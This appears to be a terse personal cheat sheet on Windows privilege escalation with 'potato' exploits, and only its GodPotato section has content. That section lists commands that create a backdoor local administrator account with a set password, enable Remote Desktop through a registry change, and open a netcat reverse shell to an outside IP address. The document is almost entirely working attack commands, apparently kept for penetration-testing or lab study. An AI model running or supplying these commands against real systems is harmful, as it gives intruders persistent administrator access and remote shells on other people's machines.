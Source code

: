 # Decoder.cloud

# Juicy Potato

# Rotten Potato

# GodPotato
Check the .NET version before to install the correct one:
```
.\GodPotato-NET4.exe -cmd "net user hajiahmad P@ssw0rd /add"
.\GodPotato-NET4.exe -cmd "net localgroup administrators hajiahmad /add"
.\GodPotato-NET4.exe -cmd "reg add 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0 /f"
.\GodPotato-NET4.exe -cmd "NET LOCALGROUP \"Remote Desktop Users\" hajiahmad /ADD"
```

```
.\GodPotato-NET4.exe -cmd ".\nc64.exe 192.168.45.154 80  -e c:\windows\system32\cmd.exe"
```

# PrintSpoofer
